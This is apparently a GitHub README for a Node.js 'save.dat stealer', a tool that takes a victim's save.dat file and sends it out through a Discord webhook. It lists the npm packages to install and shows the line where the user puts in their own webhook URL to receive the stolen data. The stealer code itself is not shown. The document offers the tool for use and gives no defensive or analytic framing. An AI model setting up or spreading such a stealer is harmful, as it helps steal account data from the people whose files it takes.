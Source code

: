 # Node-Save.dat-stealer
Super simple save.dat stealer written by node js

Installation
=======

- ```npm install username```
- ```npm install request```
- ```npm install discord-webhook-node```


editing webhook url
===============
```js
const client = new Webhook('your webhook url');//your webhook url
```

![alt text](https://media.discordapp.net/attachments/866632360165376060/878156135037796392/unknown.png?width=493&height=473)
